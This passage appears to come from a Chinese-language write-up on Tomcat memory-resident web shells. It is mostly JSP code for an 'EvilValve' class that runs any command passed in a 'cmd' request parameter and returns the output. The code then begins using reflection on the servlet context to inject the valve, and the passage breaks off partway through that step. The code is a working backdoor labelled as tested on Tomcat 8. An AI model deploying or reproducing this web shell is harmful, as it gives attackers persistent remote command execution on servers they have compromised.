 代码整合如下

> ```jsp
> <%@ page import="java.io.IOException" %>
> <%@ page import="java.lang.reflect.Field" %>
> <%@ page import="org.apache.catalina.core.ApplicationContext" %>
> <%@ page import="org.apache.catalina.core.StandardContext" %>
> <%@ page import="org.apache.catalina.connector.Request" %>
> <%@ page import="org.apache.catalina.connector.Response" %>
> <%@ page import="org.apache.catalina.Valve" %>
> <%@ page contentType="text/html;charset=UTF-8" language="java" %>
> <%
>     class EvilValve implements Valve {
>         @Override
>         public Valve getNext() {
>             return null;
>         }
>         @Override
>         public void setNext(Valve valve) {
> 
>         }
>         @Override
>         public void backgroundProcess() {
> 
>         }
>         @Override
>         public void invoke(Request request, Response response) throws IOException, ServletException {
>             String cmd = request.getParameter("cmd");
>             if (cmd != null) {
>                 Process process = Runtime.getRuntime().exec(cmd);
>                 java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
>                         new java.io.InputStreamReader(process.getInputStream())
>                 );
>                 StringBuilder stringBuilder = new StringBuilder();
>                 String line;
>                 while ((line = bufferedReader.readLine()) != null) {
>                     stringBuilder.append(line + '\n');
>                 }
>                 response.getOutputStream().write(stringBuilder.toString().getBytes());
>                 response.getOutputStream().flush();
>                 response.getOutputStream().close();
>                 getNext().invoke(request, response);
>             }else {
>                 getNext().invoke(request, response);
>             }
>         }
>         @Override
>         public boolean isAsyncSupported() {
>             return false;
>         }
>     }
> %>
> 
> <%
>     /**
>      * 已测试：tomcat8
>      */
>     try{
>         ServletContext servletContext = request.getSession().getServletContext();
>         Field appctx = servletContext.getClass().getDeclaredField("context");
>         appctx.setAccessible(true);
>         ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
>         Field stdctx;